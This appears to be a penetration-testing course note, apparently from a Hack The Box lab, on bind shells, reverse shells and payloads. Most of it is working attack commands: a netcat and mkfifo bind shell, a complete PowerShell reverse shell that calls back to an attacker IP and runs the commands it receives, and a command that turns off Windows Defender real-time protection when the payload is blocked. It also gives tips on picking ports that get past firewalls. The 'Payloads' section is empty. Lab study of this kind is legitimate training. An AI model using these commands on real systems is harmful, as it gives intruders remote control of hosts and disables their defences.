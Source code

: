 # Shells & Payloads
- [Shell Basics](#shell-basics)
    - [Bind Shells](#bind-shells)
    - [Reverse Shells](#reverse-shells)
- [Payloads](#payloads)




## Shell Basics
### Bind Shells
![Bind Shell](../../../images/bindshell.png)
- **Establishing a Basic Bind Shell with Netcat:** 
    1. Server - Binding a Bash shell to the TCP session: `Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f`
    2. Client - Connecting to bind shell on target: 
    ```
    abdeonix@htb[/htb]$ nc -nv 10.129.41.200 7777

    Target@server:~$ 
    ```

- The bind shell is much easier to defend against. Since the connection will be received incoming, it is more likely to get detected and blocked by firewalls even if standard ports are used when starting a listener.

### Reverse Shells 
![Reverse Shell](../../../images/reverseshell.png)
- [**Reverse Shell cheat sheet**](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)

> [!TIP]
> We may want to use common ports like 443,80 because when we initiate the connection to our listener, we want to ensure it does not get blocked going outbound through the OS firewall and at the network level.

- **Reverse Shell in Windows**:
    - Listen on our attack box using netcat `sudo nc -nlvp 443`
    - Connect from our target 
    ```
    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    ```
    
    > [!NOTE]
    > If we are blocked by windows defender 
    > ```
    > At line:1 char:1
    > + $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
    > + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    > This script contains malicious content and has been blocked by your antivirus software.
    > + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    > + FullyQualifiedErrorId : ScriptContainedMaliciousContent
    > ```
    > Disable AV: `Set-MpPreference -DisableRealtimeMonitoring $true`


## Payloads

